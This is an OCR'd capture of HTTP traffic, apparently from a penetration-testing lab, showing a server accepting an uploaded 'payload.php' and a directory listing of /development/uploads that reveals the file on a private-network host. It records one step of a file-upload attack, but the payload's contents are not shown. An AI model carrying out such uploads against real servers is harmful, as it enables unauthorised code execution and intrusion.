 ```http
-----------------------------1809049028579987031515260006--
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.GET /development/uploads/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 472
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /development/uploads</title>
 </head>
 <body>
<h1>Index of /development/uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/development/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="payload.php">payload.php</a></td><td align="right">2020-07-21 20:34  </td><td align="right"> 99 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.170.159 Port 80</address>
</body></html>
```
